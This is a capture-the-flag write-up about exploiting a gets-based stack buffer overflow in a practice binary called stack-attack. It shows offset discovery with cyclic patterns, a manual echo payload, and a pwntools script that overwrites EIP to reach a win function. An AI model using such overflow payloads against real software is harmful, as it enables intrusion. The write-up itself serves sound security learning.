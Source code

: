 # Stack Attack 


# Description 
If you were to read about manual for `gets` function, you might notice that it is not safe to use **No check for buffer overrun is performed**. This is exactly what will we be exploiting 

To exploit a buffer overflow on a 32-bit machine, one would need to overwrite the **EIP** with the address of the target function to redirect the flow of the program, in order to do so the goal would be to provide an input larger than the buffer to overflow the buffer space.



# Manual 
As seen in the command below, we provide the A string followed by the address of **win** function to get the flag, but how did we figure this out

## Steps
1. Generate cyclic string to locate eip offset `cyclic 120`
2. Run the binary in pwngdb and input the generate string 
3. Copy the value of the **EIP** = ~~0x61616174~~
4. Open a python shell and check the offset of EIP against the generated cyclic string 
```
Python 3.10.12 (main, Nov 20 2023, 15:14:05) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import * 
>>> len(cyclic(cyclic_find(0x61616174)))
76
>>> 
```
5. Find the address of target function `readelf -s stack-attack | grep "win"
6. Add the overflow string with the formatted address and exploit the binary

`echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x91\x04\x08" | ./stack-attack`

![manual-exploitation](Screenshot_2024-03-20_22-02-57.png)

# Automated 
To create an exploit script will use pwntools. 

```
from pwn import *
from colorama import Fore, Style

binpath = "../build/stack-attack"
context.update(arch='i386', os='linux', terminal='tilix')

p = process(binpath)

target = p32(0x08049196)

p.sendline(b"A"*76 + target)

data = p.recv().decode()
print (f"Bingo: {Fore.RED}{data}")
print(Style.RESET_ALL)
```

## Breakdown 
Import needed packages 
```
from pwn import *
from colorama import Fore, Style
```
Set system settings 
```
binpath = "../build/stack-attack"
context.update(arch='i386', os='linux', terminal='tilix')
```
Create process
```
p = process(binpath)
```
Format address and send payload 
```
target = p32(0x08049196)
p.sendline(b"A"*76 + target)
```
Print binary output containing the flag 
```
data = p.recv().decode()
print (f"Bingo: {Fore.RED}{data}")
print(Style.RESET_ALL)
```

![exploiting](Screenshot_2024-03-20_21-56-14.png)

# References 
- [CTF101-buffer-over-flow](https://ctf101.org/binary-exploitation/buffer-overflow/)